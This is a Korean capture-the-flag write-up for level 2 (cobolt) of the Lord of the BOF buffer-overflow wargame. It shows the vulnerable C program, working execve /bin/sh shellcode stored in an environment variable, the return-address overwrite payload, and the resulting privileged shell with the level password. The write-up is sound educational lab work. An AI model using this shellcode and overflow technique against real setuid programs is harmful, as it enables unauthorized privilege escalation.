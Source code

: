```yaml
---
title: LOB 2번 Write-up
date: 2017-8-26 18:05:00
categories: LOB
tags: LOB, gremlin, cobolt
---
```


## LOB 2번

이번 레벨은 cobolt이다. 뭔가 1번이랑 비슷해 보인다.

    [gremlin@localhost gremlin]$ ls -l
    total 20
    -rwsr-sr-x    1 cobolt   cobolt      11970 Feb 26  2010 cobolt
    -rw-r--r--    1 gremlin  gremlin       291 Mar 29  2010 cobolt.c
    [gremlin@localhost gremlin]$ cat cobolt.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - cobolt
            - small buffer
    */
    
    int main(int argc, char *argv[])
    {
        char buffer[16];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

`buffer`에 16바이트까지 인자를 전달받아 저장하고, `printf`로 출력한다. 이번에도 16 + 4, 즉 20바이트의 인자를 전달하면 오버플로우가 생긴다. 참고로 LOB가 돌아가는 리눅스 환경은 레드햇 6.2로 더미 메모리나 랜덤스택이 없다고 하니 더미 메모리같은것은 걱정하지 않아도 된다. 

### 쉘코드 제작

    [gremlin@localhost gremlin]$ mkdir temp
    [gremlin@localhost gremlin]$ cd temp
    [gremlin@localhost temp]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    return 0;
    }
    [gremlin@localhost temp]$ gcc -o addr addr.c
    [gremlin@localhost temp]$ ls -l
    total 16
    -rwxrwxr-x    1 gremlin  gremlin     11848 Aug 22 12:38 addr
    -rw-rw-r--    1 gremlin  gremlin        86 Aug 22 12:38 addr.c

이렇게 shell이라는 환경변수의 주소를 가져오는 프로그램을 1번과 똑같이 짜 보았다.

    [gremlin@localhost gremlin]$ export shell=`python -c 'print "\x90"*100+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
    [gremlin@localhost gremlin]$ export
    declare -x BASH_ENV="/home/gremlin/.bashrc"
    declare -x HISTSIZE="1000"
    declare -x HOME="/home/gremlin"
    declare -x HOSTNAME="localhost.localdomain"
    declare -x HOSTTYPE="i386"
    declare -x INPUTRC="/etc/inputrc"
    declare -x LANG="en_US"
    declare -x LESSOPEN="|/usr/bin/lesspipe.sh %s"
    declare -x LOGNAME="gremlin"
    declare -x LS_COLORS="no=00:fi=00:di=01;34:ln=01;36:pi=40;33:so=01;35:bd=40;33;01:cd=40;33;01:or=01;05;37;41:mi=01;05;37;41:ex=01;32:*.cmd=01;32:*.exe=01;32:*.com=01;32:*.btm=01;32:*.bat=01;32:*.sh=01;32:*.csh=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.gz=01;31:*.bz2=01;31:*.bz=01;31:*.tz=01;31:*.rpm=01;31:*.cpio=01;31:*.jpg=01;35:*.gif=01;35:*.bmp=01;35:*.xbm=01;35:*.xpm=01;35:*.png=01;35:*.tif=01;35:"
    declare -x MACHTYPE="i386-redhat-linux-gnu"
    declare -x MAIL="/var/spool/mail/gremlin"
    declare -x OSTYPE="linux-gnu"
    declare -x PATH="/usr/local/bin:/bin:/usr/bin:/usr/X11R6/bin:/home/gremlin/bin"
    declare -x PWD="/home/gremlin"
    declare -x REMOTEHOST="192.168.42.1"
    declare -x SHELL="/bin/bash"
    declare -x SHLVL="2"
    declare -x TERM="xterm"
    declare -x USER="gremlin"
    declare -x USERNAME=""
    declare -x shell="1À°1Í€‰Ã‰Á1À°FÍ€1ÀPh//shh/bin‰ãPS‰á1Ò°
                                                            Í€"

이렇게 41byte 쉘코드를 `shell`이라는 환경변수에 등록하고, `export`로 정상적으로 등록된 것을 확인하였다.


    [gremlin@localhost temp]$ ./addr
    0xbffffea1
    [gremlin@localhost temp]$ cd ..
    [gremlin@localhost gremlin]$ ./cobolt `python -c 'print "\x90"*20 + "\xa1\xfe\xff\xbf"'`
    ¡þÿ¿
    bash$ id
    uid=502(cobolt) gid=501(gremlin) egid=502(cobolt) groups=501(gremlin)
    bash$ my-pass
    euid = 502
    hacking exposed

이렇게 2번 문제의 비밀번호도 나왔다.

알고보니 1번을 풀었듯이 환경변수로 풀면 되는 문제였다. 차이점이 버퍼 크기가 256byte -> 16byte로 줄어들었다는 것이다. 1번은 환경변수로 풀 필요가 없이 버퍼 자체에다가 쉘코드를 넣어도 되지만, 2번은 버퍼가 16byte밖에 되지 않는 관계로 환경변수를 사용할 수 밖에 없는 것이다.